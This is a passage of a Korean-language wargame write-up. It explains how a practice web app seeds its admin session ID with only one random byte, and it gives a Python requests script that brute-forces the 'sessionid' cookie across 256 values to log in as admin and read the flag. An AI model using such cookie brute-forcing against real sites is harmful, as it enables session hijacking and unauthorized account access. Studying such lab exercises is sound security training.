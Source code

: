 #### 참고

만약 관리자가 존재하는 실제 웹 페이지였다면, 관리자가 `admin` 계정에 로그인함으로써 `session_storage`에 `session_id : 'admin'`이 저장되기 때문에,

이론적으로 클라이언트에서 쿠키 조작으로 로그인에 성공할 수 있긴 하다.

그런데 워게임 웹 사이트에서는 `/login` 엔드 포인트에서 `admin` 계정으로 클라이언트에서는 로그인 할 수 있는 방법이 없기 때문에 `session_storage`에 `session_storage`에 `session_id : 'admin'`를 설정할 수 없고,

`admin` 계정으로 웹 서버에서 미리 로그인을 해서 `session_storage`를 세팅했는지 확인할 수 없기 때문에 아예 공격이 불가능할 수도 있다.

<br>

#### 다시 돌아와서..

그래서 최악의 경우 **brute force**로도 공격할 수 없는 상황이 발생한다.

그렇다면 이제 어떻게 문제를 풀어야할까 고민해보며, 마지막 단서를 찾기 위해서 아래의 `main`의 코드를 보자.
 
```py
if __name__ == '__main__':
    import os
    session_storage[os.urandom(1).hex()] = 'admin'
    print(session_storage)
    app.run(host='0.0.0.0', port=8000)
```

위 코드를 보면 어이없게도, 관리자가 로그인하기도 전에 `session_storage`의 `admin` value에 대한 key 값인 `session_id`를 미리 **1바이트 hex 랜덤 값**으로 설정해주는 것을 확인할 수 있다.

이 부분 때문에 4바이트가 아닌 1바이트 크기의 **brute force** 공격이 가능하게 되고, 관리자가 미리 `admin` 계정으로 로그인해주지 않아도 `session_id`가 설정되어 있어서 **쿠키 조작**으로 로그인 우회도 가능하다.

그럼 이제, 쿠키를 조작하여 1바이트 hex 크기의 `session_id`를 brute force로 찾아보자.

<br>

## Exploit

### 1. requests 모듈

```py
import requests

url = 'http://host3.dreamhack.games:17390/'
cookies = {
}

for i in range(256):
    cookies['sessionid'] = f'{i:02x}'
    # cookies['sessionid'] = format(i, '02x')
    # cookies['sessionid'] = hex(i)[2:].zfill(2)
    response = requests.get(url, cookies=cookies)
    if 'flag' in response.text:
        print(f'sessionid is {cookies["sessionid"]}')
        print(response.text)
        break
```


python의 `requests` 모듈을 통해 GET 요청으로 쿠키 값을 세팅할 수 있다.

1바이트 hex 값의 범위는 **0 ~ ff(255)** 이므로, 반복문을 통해 **0 ~ 255**를 순회하여 `0x`를 뺀 hex값으로 formatting해주면 된다.

참고로, `02x`에서 `0`은 빈 자리를 0으로 채우겠다는 의미이고, `2`는 format을 2자리로 고정, `x`는 hex 값으로 formatting한다는 의미이다.

쿠키 값을 `sessionid : 랜덤값` 으로 세팅해준 후 GET 요청을 보냈을 때 `response`에 `admin` 계정에 로그인 했을 때 나오는 `flag`라는 문자열이 존재하면,

brute force에 성공한 것이므로 쿠키의 `sessionid`에 세팅된 값과 `response`를 출력되도록 하여 `FLAG`를 확인할 수 있도록 하였다.

